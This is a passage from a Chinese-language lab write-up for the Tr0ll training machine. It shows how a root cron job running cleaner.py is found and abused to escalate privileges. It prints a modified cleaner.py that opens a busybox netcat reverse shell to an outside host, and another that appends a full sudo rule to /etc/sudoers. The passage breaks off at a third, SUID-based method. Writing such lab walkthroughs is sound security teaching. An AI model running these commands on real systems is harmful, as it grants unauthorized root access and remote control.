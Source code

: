 通过pspy确认cleaner.py为root权限执行的定时任务文件。

![image-20250825162925552](./Tr0ll.assets/image-20250825162925552.png)

### cronlog

除了通过pspy发现cleaner.py是定时任务文件，还可以通过查看/var/log/cronlog文件发现，并且得知循环时间为2min。

```bash
overflow@troll:/$ ls -al /var/log/cronlog
-rwxrwxrwx 1 root root 23 Aug 13  2014 /var/log/cronlog
overflow@troll:/$ cat /var/log/cronlog
*/2 * * * * cleaner.py
```

### exploit

发现提权向量后，在此我提供如下三种利用方式：

- busybox反弹shell

```bash
overflow@troll:/dev/shm$ cat /lib/log/cleaner.py
cat /lib/log/cleaner.py
#!/usr/bin/env python
import os
import sys
try:
        os.system('busybox nc 10.0.0.129 443 -e /bin/bash')
        os.system('rm -r /tmp/* ')
except:
        sys.exit()
overflow@troll:/dev/shm$
```

- 修改/etc/sudoers文件

```bash
overflow@troll:/$ cat /lib/log/cleaner.py
#!/usr/bin/env python
import os
import sys
try:
        os.system('echo "overflow ALL=(ALL:ALL) ALL" >> /etc/sudoers')
except:
        sys.exit()
```

- gcc编译suid程序
